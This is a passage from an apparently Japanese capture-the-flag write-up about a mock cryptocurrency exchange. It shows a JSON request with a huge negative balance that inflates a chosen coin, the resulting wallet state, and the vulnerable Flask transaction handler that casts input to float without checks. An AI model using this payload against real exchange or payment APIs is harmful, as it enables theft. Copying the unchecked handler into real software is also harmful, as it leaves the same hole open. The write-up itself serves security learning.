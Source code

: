 このため、以下のような通貨交換リクエストを送信すると、

```json
{
  "sourceCoin": "cashout",
  "targetCoin": "ascoin",
  "balance": -1000000000000000000000000000
}
```
特定の通貨を自由に増やすことができます。

```json
[
  {
    "name": "cashout",
    "value": 1E+27
  },
  {
    "name": "glaciercoin",
    "value": 0
  },
  {
    "name": "ascoin",
    "value": -1E+27
  },
  {
    "name": "doge",
    "value": 0
  },
  {
    "name": "gamestock",
    "value": 0
  },
  {
    "name": "ycmi",
    "value": 0
  },
  {
    "name": "smtl",
    "value": 0
  }
]

```


また、大きい金額をリクエストすると、金額が`Infinity`となることを確認しました。

![image](https://github.com/r1k0t3k1/note/assets/57973603/d3b9a75d-8961-49c6-a565-a46b6004036d)

`wallet.transaction`が呼び出される際の金額にあたる引数がfloatにキャストされているため、float型の最大値を超えた場合に`Infinity`となるようです。

```python
@app.route('/api/wallet/transaction', methods=['POST'])
def transaction():
    payload = request.json
    status = 0
    if "sourceCoin" in payload and "targetCoin" in payload and "balance" in payload:
        wallet = get_wallet_from_session()
        status = wallet.transaction(payload["sourceCoin"], payload["targetCoin"], float(payload["balance"]))
    return jsonify({
        "result": status
    })
```
